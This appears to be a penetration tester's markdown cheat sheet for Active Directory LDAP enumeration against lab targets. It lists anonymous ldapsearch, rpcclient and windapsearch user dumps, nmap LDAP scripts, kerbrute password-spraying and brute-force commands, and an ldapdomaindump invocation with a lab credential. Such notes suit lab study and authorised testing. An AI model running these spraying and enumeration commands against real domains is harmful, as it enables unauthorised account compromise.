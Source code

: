 ### LDAP Enumeration
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: hutch.offsec0., Site: Default-First-Site-Name)
```
Extract all info under dn:
ldapsearch -x -H ldap://192.168.151.122 -D '' -w '' -b "DC=hutch,DC=offsec"

Extract description:
ldapsearch -x -H ldap://192.168.151.122 -D '' -w '' -b "DC=hutch,DC=offsec" | grep description

Extract domain password policy:
ldapsearch -x -H ldap://INLANEFREIGHT.LOCAL  -D '' -w '' -b "DC=INLANEFREIGHT,DC=LOCAL" | grep -m 1 -B 10 pwdHistoryLength

Extract naming context:
ldapsearch -H ldap://192.168.151.122 -x -s base namingcontexts

Extract all info:
ldapsearch -H ldap://10.10.11.187 -x -s base

Nmap auto enum:
nmap -n -sV --script "ldap* and not brute" <IP> #Using anonymous credentials

enum4linux -a -v ip
```
### LDAP User enumeration with no credential
```
rpcclient -U "" -N 172.16.5.5
enumdomusers
```
```
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
ldapsearch -x -H ldap://192.168.151.122 -D '' -w '' -b "DC=hutch,DC=offsec" | grep sAMAccountName
./windapsearch.py --dc-ip 172.16.5.5 -u "" -U
```
### Domain PasswordSpray
```
./kerbrute_linux_amd64 passwordspray --dc 10.10.11.60 -d frizz.htb userlist "Welcome1!" -v
```
### Domain Password Brute-force
```
./kerbrute bruteuser --dc 10.10.11.60 -d frizz.htb pass_file M.SchoolBus -v
```
### If you have valid credentials to login into the LDAP server, you can dump all the information about the Domain Admin using:
```
pip3 install ldapdomaindump 
ldapdomaindump <IP> [-r <IP>] -u '<domain>\<username>' -p '<password>' [--authtype SIMPLE] --no-json --no-grep [-o /path/dir]
```
```
If you find something saying that the "bind must be completed" means that the credentials are incorrect.

You can extract everything from a domain using:

Copy
ldapsearch -x -H ldap://10.10.10.192 -b "DC=BLACKFIELD,DC=local" -D 'support@blackfield.local' -w '#00^BlackKnight'
-x Simple Authentication
-H LDAP Server
-D My User
-w My password
-b Base site, all data from here will be given
```
